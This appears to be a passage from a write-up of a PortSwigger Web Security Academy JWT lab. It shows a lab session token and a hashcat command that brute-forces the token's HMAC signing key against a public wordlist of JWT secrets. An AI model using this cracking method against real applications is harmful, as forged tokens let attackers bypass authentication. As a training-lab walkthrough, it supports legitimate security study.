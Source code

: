 [wordlist jwt serects](https://github.com/wallarm/jwt-secrets/blob/master/jwt.secrets.list)

![image-20250524125940054](./image/image-20250524125940054.png)

Do the same steps with Lab 1 and Lab 2 - apprentice: but get the result `Unauthorized`

**Part 1: Bruteforce the secret key using [Hashcat](https://hashcat.net/hashcat/)**

cookie session: 

```
eyJraWQiOiIwNDU1OGZkYi05NTc5LTRkNzctOGEyMC0xNTA0ZGNhYWIxOWUiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc0ODA2OTg0NCwic3ViIjoid2llbmVyIn0.RDMyKegw29fOUGj2HNMBXHAwg81M3HEn2mKy394h16M
```

`hashcat -a 0 -m 16500 <YOUR-JWT> /path/to/jwt.secrets.list`

![image-20250524130941704](./image/image-20250524130941704.png)
